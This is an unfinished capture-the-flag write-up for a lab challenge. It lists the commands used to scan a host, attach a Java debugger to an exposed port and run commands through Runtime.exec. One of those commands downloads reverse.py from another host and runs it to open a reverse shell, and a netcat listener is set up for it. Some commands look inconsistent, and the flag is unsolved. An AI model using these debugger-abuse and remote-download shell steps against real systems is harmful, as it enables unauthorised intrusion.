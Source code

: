 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

Still working on it... just dropping commands

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```

<details>
  <summary>SPOILER: Flag</summary>

  ```Haven't Solved```
  
</details>
